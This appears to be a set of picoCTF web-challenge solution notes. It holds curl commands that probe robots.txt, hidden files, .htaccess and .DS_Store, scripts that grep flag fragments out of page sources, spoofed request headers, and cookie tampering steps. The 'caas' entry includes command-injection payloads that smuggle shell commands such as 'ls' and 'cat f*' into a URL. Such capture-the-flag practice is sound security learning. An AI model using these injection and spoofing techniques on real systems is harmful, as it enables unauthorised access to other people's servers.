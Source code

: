 ## :robot: - where are the robots - `4`
```sh
$ curl http://jupiter.challenges.picoctf.org:36474/robots.txt
. . .
User-agent: *
Disallow: /_.html
. . .

$ curl http://jupiter.challenges.picoctf.org:36474/_.html
```

## 🕵️‍♀️ - Insp3ct0r
```r
#!/bin/bash

alias cmd='grep -i flag | sed "s/^.*flag: //" | sed "s/ .*$//" '
url='https://jupiter.challenges.picoctf.org/problem/41511'

curl -s ${url}/index.html | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/myjs.js | cmd
```


## :wood: - logon - `46`
- in chrome do `chrome://flags`
- set Partitioned cookies to enable
- relaunch and set admin cookie to true 

## :thread: - dont-use-client-side - `66`
```r
$ curl http://jupiter.challenges.picoctf.org:37821 | grep substring 
```

## :question: - who are you - `142`
```r
# HTTP Requests for Comments (RFC)

$ curl -H "user-agent: PicoBrowser" \
-H "referer: mercury.picoctf.net:34588" \
-H "date: 2018" 
-H "DNT: 1" \
-H "origin: sweden" \
-H "x-forwarded-for: 31.44.224.0" \
-H "accept-language: sv-swe" \
http://mercury.picoctf.net:34588
```

## 🉑 - Some Assembly Required 1 - `152`
###### hint: path in script

## 🇭🇺 - scavenger hunt - `161`
```r
#!/bin/bash

alias cmd='grep -i part | sed "s/^.*: //" | sed "s/ .*$//" '
url='http://mercury.picoctf.net:55079'

curl -s ${url} | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/robots.txt | cmd
curl -s ${url}/.htaccess | cmd
curl -s ${url}/.DS_Store | cmd
```
###### edited from
```sh
#!/bin/bash

curl -s -n http://mercury.picoctf.net:55079 | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/mycss.css | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/robots.txt | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.htaccess | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.DS_Store | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
```

## :baseball: - login - `200`
###### hint: base64

## :cow: - caas - `202`
```sh
$ curl "https://caas.mars.picoctf.net/cowsay/pwd;ls"
$ curl "https://caas.mars.picoctf.net/cowsay/xxx;cat f*"
```

